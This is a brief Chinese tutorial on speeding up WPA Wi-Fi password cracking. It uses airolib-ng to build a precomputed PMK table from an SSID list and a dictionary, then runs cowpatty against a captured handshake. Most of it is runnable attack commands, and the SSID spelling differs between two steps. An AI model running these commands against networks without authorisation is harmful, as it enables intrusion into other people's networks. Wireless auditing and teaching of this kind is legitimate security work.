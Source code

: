 # WPA渗透-使用airolib-ng创建彩虹表加速

## 1.什么是彩虹表?

彩虹表是一一个用于加密散列函数逆运算的预先计算好的表，为破解密码的散列值(或称哈希值、微缩图、摘要、指纹、哈希密文)而准备。一般主流的彩虹表都在100GB以上。这样的表常常用于恢复由有限集字符组成的固定长度的纯文本密码。

## 2.渗透wifi

### 1.创建数据库名

```
airolib-ng [数据库名] --import essid [一个或者多个ssid的文件]

airolib-ng RINBOW1 --import essid wifi.txt
```

![image-20230419144927041](https://image.201068.xyz/assets/image-20230419144927041.png)

### 2.将字典导入数据库

```
airolib-ng [数据库名] --import passwd [字典]

airolib-ng RINBOW1 --import passwd /root/wifi/passwd.txt
```

### 3.生成渗透wifi密码的PMK

```
airolib-ng [ 数据库名] --batch

airolib-ng RINBOW1 --batch
```

### 4.生成需要渗透wifi的彩虹表

```
airolib-ng [数据库名] --export cowpatty [ssid][表名]

airolib-ng RINBOW1 --export cowpatty cisco-1809 R_RINBOW1
```

### 5.渗透wifi

```
cowpatty -s [ssid] -d [表名] -r [抓到的cap握手包]

cowpatty -s cisC0-1809 -d R_RINBOW1 -r wpa-1-01.cap
```

